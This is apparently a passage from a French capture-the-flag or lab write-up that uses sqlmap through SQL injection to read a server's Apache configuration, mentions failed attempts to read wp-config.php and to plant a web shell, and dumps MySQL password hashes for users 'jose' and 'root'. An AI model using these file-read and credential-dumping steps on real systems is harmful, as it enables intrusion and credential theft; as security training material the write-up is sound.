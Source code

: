 Pour obtenir un fichier, on utilise une option spécifique de `sqlmap` :

```
--file-read /etc/apache2/sites-enabled/000-default.conf
```

On obtient alors la configuration du serveur Apache :

```apache
<VirtualHost *:80>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html/wordpress

        <Directory /var/www/html/wordpress/>
        AllowOverride All
        </Directory>

        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

        # For most configuration files from conf-available/, which are
        # enabled or disabled at a global level, it is possible to
        # include a line for only one particular virtual host. For example the
        # following line enables the CGI configuration for this host only
        # after it has been globally disabled with "a2disconf".
        #Include conf-available/serve-cgi-bin.conf
</VirtualHost
```

Malheureusement les tentatives de lire le fichier `wp-config.php` ont échouées, tout comme celles visant à déposer un shell dans la racine web (options `--file-write` et `--file-dest`).

Du coup, qu'est-ce que l'on peut faire ? Jetons un œil aux hashes du serveur MySQL avec `--passwords` :

```
[*] jose [1]:
    password hash: *3AA64DAE22DBC5B7ACC28062EB18EFB7046D808C
[*] root [1]:
    password hash: *A14C02465C2ED43BDB89ACC6C7213C1D00617758
```
